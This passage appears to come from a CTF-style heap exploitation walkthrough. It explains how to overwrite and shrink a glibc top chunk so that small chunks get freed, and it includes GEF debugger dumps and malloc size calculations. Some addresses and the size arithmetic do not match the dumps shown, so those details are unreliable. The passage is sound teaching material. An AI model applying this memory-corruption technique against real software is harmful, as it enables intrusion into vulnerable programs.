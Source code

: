 ### Stage 2: Free 2 small chunks

Now, we will continue using the above technique to free 2 top chunk with small size. Do you still remember we have already chunk index 1 which in the new page of heap? This time, we will reuse that to overwrite the new top chunk size again.

Before we do that, let’s see the new top chunk size next to chunk 1. Because I re-run program so address changed. This is new stack address:

```
0x00007ffec709f4d0│+0x0000: "puts(C)\n"  ← $rax, $rsp, $rdi
0x00007ffec709f4d8│+0x0008: 0x00000a2936353200
0x00007ffec709f4e0│+0x0010: 0x0000557c12fa02a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffec709f4e8│+0x0018: 0x0000557c12fc1010  →  0x0000000000000000    <-- Chunk index 1
0x00007ffec709f4f0│+0x0020: 0x0000557c12fa02c0  →  0x00007f5c373161e0    <-- Chunk index 2
0x00007fffcd05f248│+0x0028: 0x0000000000000000
0x00007fffcd05f250│+0x0030: 0x0000000000000000
0x00007fffcd05f258│+0x0038: 0x0000000000000000
```

So new top chunk size now is:

```
gef➤  # x/4xg <chunk index 1> + 0x1000
gef➤  x/4xg 0x000055cb4beae010 + 0x1000
0x557c12fc2010: 0x0000000000000000  0x0000000000020ff1
0x557c12fc2020: 0x0000000000000000  0x0000000000000000
```

We need to make top chunk size smaller such as 0x300, so we need to malloc another chunk with the size `0xcf0` with this calculation:

```
0xff1 - 0x300 - 0xcf1
```

We will want to malloc `0xcf0-0x10` because there is heap metadata, so if we `malloc(0xcf0)`, the total size will be `0xcf0 + 0x10 = 0xd00`:

```
malloc(1, 0xcf0-0x10)
```

Why I use index 1? Just because we don't use those 0x1000 byte of chunk 1 anymore so we reuse index 1 again. After `malloc(1, 0xcf0-0x10)`, the stack where chunk 1 is placed changed:

```
0x00007ffec709f4d0│+0x0000: "B=malloc(3296)\n"   ← $rax, $rsp, $rdi
0x00007ffec709f4d8│+0x0008: "(3296)\n"
0x00007ffec709f4e0│+0x0010: 0x0000557c12fa02a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffec709f4e8│+0x0018: 0x0000557c12fc2020  →  0x0000000000000000    <-- Chunk index 1
0x00007ffec709f4f0│+0x0020: 0x0000557c12fa02c0  →  0x00007f5c373161e0    <-- Chunk index 2
0x00007ffec709f4f8│+0x0028: 0x0000000000000000
0x00007ffec709f500│+0x0030: 0x0000000000000000
0x00007ffec709f508│+0x0038: 0x0000000000000000
```

Let’s check if our top chunk size if changed correctly:
